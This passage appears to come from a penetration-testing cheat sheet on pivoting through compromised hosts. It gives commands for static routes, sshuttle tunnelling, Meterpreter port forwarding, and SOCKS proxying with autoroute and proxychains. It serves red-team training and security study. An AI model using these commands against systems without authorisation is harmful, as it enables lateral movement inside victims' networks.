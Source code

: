 Route traffic on client:

```bash

route add -net 10.0.0.0/16 gw 1.1.1.1

```

---

## **SSHuttle - Transparent SSH VPN**

Tunnel all traffic to a subnet through a compromised SSH host.

```bash

pip install sshuttle
sshuttle -r user@host 10.10.10.0/24
# Routes all traffic destined for 10.10.10.0/24 through SSH

```

---

## **Meterpreter Pivoting**

Inside a Meterpreter session:

### Port Forwarding (Meterpreter `portfwd`)

```bash

portfwd add -l <local_port> -p <remote_port> -r <remote_host>
# Local -> Compromised -> Remote

```

### SOCKS Proxy with Meterpreter

```bash

background
route add <victim_ip> <netmask> <session_id>

use auxiliary/server/socks_proxy
run

# Configure proxychains:
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf

```

Alternatively, with `autoroute`:

```bash

background
use post/multi/manage/autoroute
set SESSION <session_id>
set SUBNET <victim_subnet>
set NETMASK <netmask>
run

use auxiliary/server/socks_proxy
set VERSION 4a
run

```
